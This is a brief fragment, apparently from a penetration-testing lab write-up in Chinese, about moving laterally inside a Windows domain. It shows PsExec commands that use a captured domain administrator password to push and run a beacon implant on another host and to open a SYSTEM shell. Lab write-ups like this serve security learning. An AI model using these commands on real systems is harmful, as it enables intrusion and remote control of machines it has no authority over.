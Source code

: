 选择配置信息

上方是获得的用户密码

​![image](http://127.0.0.1:6806/assets/image-20231214105409-c7zyfmf.png)​

```text
PsExec64.exe -accepteula \\192.168.52.138 -u god\administrator -p Ab262524! -d -c C:\windows\temp\beacon64.exe
PsExec64.exe -accepteula \\192.168.52.138 -u god\administrator -p Ab262524! -s cmd
```
